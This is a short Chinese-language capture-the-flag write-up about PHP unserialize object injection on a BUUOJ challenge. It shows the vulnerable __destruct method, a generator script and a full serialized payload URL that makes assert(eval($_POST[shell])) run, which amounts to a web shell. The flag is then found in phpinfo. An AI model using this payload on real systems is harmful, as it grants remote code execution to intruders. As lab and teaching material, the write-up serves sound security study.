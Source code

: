 ###### 反序列化传木马

主要利用：

```php
public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
```

这里有$a和$b两个变量，最后以echo ($b($a))结束，

可以构造`assert(eval($_POST[penson]);)`

payload：

1. `$_POST[shell]`：获取名为"shell"的POST参数的值。
2. `eval($_POST[shell])`：使用`eval()`函数执行通过POST请求传递的代码。`eval()`函数用于将字符串作为PHP代码执行。
3. `assert(...)`：`assert()`函数是一个断言函数，它用于判断括号中的表达式是否为真。在这里，它被用来执行通过`eval()`执行的代码。

```
<?php
error_reporting(1);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}

$flag= new HelloPhp();
$flag->b='assert';
$flag->a='eval($_POST[shell]);';
echo (serialize($flag));

?>
```

```
http://3d0c9f1c-8c46-4548-8da6-6e7e7b41526a.node4.buuoj.cn:81/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:20:"eval($_POST[shell]);";s:1:"b";s:6:"assert";}
```

最后在phpinfo中发现flag

![image-20231214102601632](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231214102601632.png)


